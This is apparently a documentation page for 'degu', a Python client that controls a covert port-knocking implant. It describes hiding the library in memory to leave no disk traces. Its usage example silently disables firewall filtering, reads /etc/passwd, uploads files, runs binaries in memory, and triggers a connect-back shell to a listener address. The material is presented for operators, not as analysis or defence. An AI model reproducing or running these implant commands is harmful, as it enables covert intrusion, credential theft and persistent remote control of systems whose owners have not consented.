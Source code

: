 ```python
def xcrypt_knock(self, data: bytes) -> bytes
```
Encrypts/decrypts a knock message with the knock key.
- **data**: Knock data to encrypt/decrypt
- **Returns**: Encrypted/decrypted data

```python
def sign_msg(self, data: bytes) -> bytes
```
Signs data with the private key.
- **data**: Data to sign
- **Returns**: Signature (64 bytes)

### Static Utilities
```python
@staticmethod
def keygen() -> str
```
Generates a new ED25519 key pair and associated values.
- **Returns**: Formatted content for insertion into keys.h

```python
@staticmethod
def getpub() -> None
```
Displays Degu internal information (public keys and IV).

## Obfuscation Techniques

### Library Loading
The degu.so library is embedded as base64-encoded and compressed data in the Python code. 

It is extracted and loaded into memory at runtime via `memfd_create` or a temporary file, which avoids leaving traces on disk.

## Complete Usage Examples

### Connecting to an Implant and Executing Commands
```python
import degu
import time

# Initialize connection
d = degu.degu("192.168.0.10")

# Execute command without response
d.ghost_exec("iptables -P INPUT ACCEPT")

# Open a port on the implant
d.knock(":4444")
time.sleep(2)  # Wait for activation

# Download a file
content = d.download("/etc/passwd")
print(content)

# Upload a file
d.upload("/local/path/file.txt", "/remote/path/file.txt")

# Execute a binary in memory
d.mem_exec("./my_binary", "my_binary arg1 arg2")

# Connect-back - Listen on local port 5555
d.knock("192.168.0.20:5555")  # Client IP and port
```